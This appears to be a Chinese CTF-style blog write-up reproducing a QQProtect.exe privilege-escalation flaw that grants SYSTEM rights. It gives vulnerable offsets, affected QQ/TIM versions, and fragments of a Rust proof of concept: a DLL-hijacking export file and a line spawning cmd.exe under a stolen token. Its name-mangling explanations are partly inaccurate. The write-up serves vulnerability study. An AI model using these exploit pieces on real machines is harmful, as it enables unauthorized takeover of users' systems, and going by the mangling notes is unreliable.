 ```yaml
---
title: QQ Elevation复现
date: 2023-07-03 14:19:49
categories: CTF
tags: [CVE]
---
```


> 利用QQProtect.exe提权，获得NT Authority\SYSTEM权限。

## 漏洞成因：

QQProtect.exe没有使用ASLR保护，篡改函数指针，利用ROP链（Ret Oriented Programming，即修改函数返回指针)实现了任意代码执行。

1.QQProtect.exe+0x40c9f8处，有`任意地址写漏洞`。

待添加自己的截图，网络截图可见：



![image0](QQ%E6%8F%90%E5%8F%96%E6%BC%8F%E6%B4%9E/image0.png)

可以在任意地址写入DWORD(1)。

2.QQProtectEngine.dll+0x3B4F6处，

待添加自己的截图，网络截图可见：



![image1](QQ%E6%8F%90%E5%8F%96%E6%BC%8F%E6%B4%9E/image1.png)

可以完成对任意地址的指针ptr，偏移2个ptr指针类型大小的位置处，赋值为(unsigned int )(ptr+3)。



Affected Products:

* QQ 9.7.1.28940 ~ 9.7.8.29039
* TIM 3.4.5.22071 ~ 3.4.7.22084

Affected Components:

* QQProtect.exe 4.5.0.9424 (in TIM 3.4.5.22071)
* QQProtect.exe 4.5.0.9426 (in QQ 9.7.1.28940)
* QQProtectEngine.dll 4.5.0.9424 (in TIM 3.4.5.22071)
* QQProtectEngine.dll 4.5.0.9426 (in QQ 9.7.1.28940)

## POC

POC整体用rust构建，先来解析配置文件里的内容。

### 1.配置文件解析

针对32位系统使用静态链接的C运行时，构建可执行文件。

```sh
cargo +stable-i686-pc-windows-msvc build --release --config "build.rustflags = [\"-C\", \"target-feature=+crt-static\"]"
```

对应的toml文件

```toml
[profile.release]
opt-level = 3

[profile.release.overrides.'cfg(target_os = "windows")']
rustflags = ["-C", "target-feature=+crt-static"]
```

此时，只需要`cargo build --release`即可。

开发过程中，要利用一些依赖库，来调用Windows API、服务和命令行参数。

```toml
[dependencies.rhexdump]
version = "0.1.1"

[dependencies.windows]
version = "0.44.0"
features = [
    "Win32_Foundation",
    "Win32_System_LibraryLoader",
    "Win32_System_Threading",
    "Win32_System_SystemServices",
    "Win32_System_Console"
]

[dependencies.windows-service]
version = "0.5.0"

[dependencies.windows-args]
version = "0.2.0"

#生成动态链接库，即dll文件
[lib]
crate-type = ["cdylib"]

```

2.定义的`src\lib.def`文件中的导出符号。

### C++名称修饰规则

 C++ 的名称修饰规则，也称为名称重整（name mangling）。用于编译器生成符号表，会因平台和编译器有所不同。它将函数和变量的名称、参数类型、返回类型等信息编码成一个唯一的符号。 

名称修饰的目的是确保在**链接阶段可以正确地解析函数和变量的符号，避免符号冲突和重复定义的问题。**  为了实现不同编程语言之间的互操作性，可以使用 `extern "C"` 来指定使用 C 风格的符号。

>导出符号的格式是 `?SymbolName@ClassName@@FunctionSignature=_alias@0` 



下面的文件规定了导出的类和符号命，并 将所有导出符号重命名为 `_die`。 

```def
LIBRARY
EXPORTS
    ?NextSiblingElement@TiXmlNode@@QAEPAVTiXmlElement@@PBD@Z=_die@0
    ?FirstChildElement@TiXmlNode@@QAEPAVTiXmlElement@@PBD@Z=_die@0
    ??1TiXmlDocument@@UAE@XZ=_die@0
    ?RootElement@TiXmlDocument@@QAEPAVTiXmlElement@@XZ=_die@0
    ?GetText@TiXmlElement@@QBEPBDXZ=_die@0
    ?Attribute@TiXmlElement@@QBEPBDPBD@Z=_die@0
    ?Attribute@TiXmlElement@@QBEPBDPBDPAH@Z=_die@0
    ?LoadXML@TiXmlDocument@@QAE_NPADHW4TiXmlEncoding@@@Z=_die@0
    ??0TiXmlDocument@@QAE@XZ=_die@0
    DllMain

```


 `QAE` 指示该构造函数是一个非静态成员函数，

- `QB` 表示该函数是一个非静态成员函数，并且返回一个指针。
- `EPBD` 表示函数的第一个参数是一个 `const char*` 类型的指针。
- `PAH` 表示函数的第二个参数是一个 `int*` 类型的指针。
-  `PAVTiXmlElement 表示返回类型是一个指向 `TiXmlElement` 类的指针。 
- XZ` 表示该构造函数不接受任何参数。 



### 代码解析

```rust
CreateProcessAsUserW(token2, None, PWSTR("cmd.exe".encode_utf16().chain(Some(0)).collect::<Vec<u16>>().as_mut_ptr()), None, None, FALSE, PROCESS_CREATION_FLAGS(0), None, None, &si, &mut pi).ok().unwrap();
```

